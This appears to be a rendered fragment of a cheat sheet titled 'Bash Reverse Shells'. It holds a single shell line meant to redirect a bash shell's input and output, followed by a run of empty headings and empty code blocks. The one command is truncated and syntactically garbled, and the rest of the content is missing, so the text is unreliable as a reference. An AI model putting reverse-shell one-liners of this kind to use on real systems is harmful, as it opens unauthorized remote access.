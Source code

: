 # Bash Reverse Shells

```
exec /bin/bash 0&0 2>&0

```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```

#

```

```
